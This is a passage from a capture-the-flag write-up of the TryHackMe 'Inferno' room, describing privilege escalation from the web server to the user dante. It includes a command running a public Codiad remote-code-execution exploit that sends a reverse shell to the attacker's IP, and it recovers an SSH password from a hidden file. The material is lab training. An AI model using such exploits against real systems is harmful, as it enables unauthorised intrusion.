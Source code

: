 


I used the same username and pass , it worked.


![](/TryHackMe/Inferno/ide.png)


Hence this is the web server which is running . I tried editing php files for reverse shell , but we don't have write permissions. Hence I the name of this IDE was in the title which is **Codiad**.


I searched for public exploits and found this RCE exploit.

Exploit link : https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit


I cloned it and used the program .


>  python exploit.py http://admin:dante1@10.10.4.111/inferno/  admin dante1 \<your-ip> 1234 linux


![](/TryHackMe/Inferno/exploit.png)



Follow the commands given in that exploit and execute it. 

We get reverse shell.

For some reason the shell was not stable and I was losing connection , hence follow these steps.


![](/TryHackMe/Inferno/www-data.png)



## __Third Stage : www-data to dante__


In the downloads directory there was a hidden file called **.download.dat**


![](/TryHackMe/Inferno/down.png)



I used  CyberChef to decode and we get the password.

![](/TryHackMe/Inferno/sshpass.png)



So now we can ssh into the machine and get flag.


![](/TryHackMe/Inferno/dante.png)



For some reason the ssh connection was getting lost. So type /bin/sh or sh to get a stable shell.


## __Fourth Stage : dante to root__
